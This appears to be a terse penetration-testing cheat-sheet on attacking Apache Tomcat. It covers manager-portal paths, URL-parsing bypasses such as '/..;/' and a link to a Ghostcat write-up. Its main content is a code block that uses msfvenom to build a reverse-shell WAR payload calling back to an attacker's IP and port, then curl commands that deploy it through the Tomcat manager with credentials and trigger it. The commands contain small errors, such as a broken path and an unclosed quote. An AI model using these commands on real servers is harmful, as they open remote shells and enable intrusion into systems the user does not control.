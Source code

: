 # Apache Tomcat


## Vulnerabilities and Enumeration

Default password: `metasploit` module auxiliary scanner! 

Administrator portal can host files
`/manager/`
`/manager-gui/`

nginx - tomcat observe url parsing `/..;/`


Fuzzing tomcat `////Admin` or `;/Admin`
#### Ghostcat

Upload should not necessarily require username and password
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f war -o shell.war
# OR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f war -o shell.war
# the FILE.jsp is catable in the .war shell 
curl -u '[USERNAME]:[PASSWORD]' --upload-file shell.war "http://$IP:8080/mana ger/text/deploy?path=/shell"
# Check the file
curl -u '[USERNAME]:[PASSWORD]' "http://$IP:8080/shell/$FILE.jsp
```

[Apache Ghostcat](https://medium.com/@sushantkamble/apache-ghostcat-cve-2020-1938-explanation-and-walkthrough-23a9a1ae4a23)